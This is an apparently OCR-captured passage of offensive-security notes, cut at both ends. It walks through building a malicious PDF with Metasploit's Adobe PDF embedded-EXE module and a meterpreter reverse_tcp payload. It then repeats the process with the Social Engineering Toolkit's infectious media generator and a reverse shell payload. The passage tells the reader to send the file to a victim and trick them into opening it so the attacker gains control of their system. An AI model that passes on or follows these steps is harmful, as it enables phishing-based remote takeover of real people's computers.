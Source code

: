            ```
           use exploit/windows/fileformat/adobe_pdf_embedded_exe
           ```

        3. **Show Options**:

           ```
           show options
           ```

           - Use a predefined or custom PDF file for embedding.

        4. **Set Launch Message** (optional):

           ```
           set LAUNCH_Message <message>
           ```

        5. **Choose Payload**:

           ```
           set payload windows/meterpreter/reverse_tcp
           ```

           - Set LHOST and LPORT.

        6. **Generate the Malicious PDF**:

           ```
           exploit
           ```

           - PDF is saved in `/root/.msf4/local/`.
        Finally, send the malicious PDF to the victim and trick them into executing it to gain control over their system.
  - Social Engineering Toolkit (SET)
    - Steps to Create a Malicious PDF with SET
      1. **Navigate to Social Engineering Attack Vectors**:
         - Launch SET and navigate to the "Social Engineering Attack Vectors" menu.
         - Press `3` to enter the “Infectious Media Generator” menu.
      2. **Choose the Type of Exploit**:
         - Select the type of exploit by pressing `1` for "Fileformat exploits."
      3. **Enter Reverse Connection IP**:
         - Input the IP address of your machine (BackTrack box).
      4. **Choose the Exploit Type**:
         - Select the “Adobe PDF Embedded EXE” exploit.
      5. **Use Own PDF or Template**:
         - Choose whether to use your own PDF or a template available in SET.
      6. **Select Payload**:
         - Stick with the default payload “Windows/shell/reverse_tcp”.
      7. **Enter Payload Listener IP and Port**:
         - Provide the IP of your payload listener (same as your machine’s IP).
         - Choose a port for the listener (ensure no other service is using this port).
      8. **Enable Listener**:
         - Confirm to enable the listener, which will start listening for incoming connections.
      Once the victim opens the malicious PDF, you will receive a reverse connection to your machine.
      - Summary of Commands
        1. Launch SET:
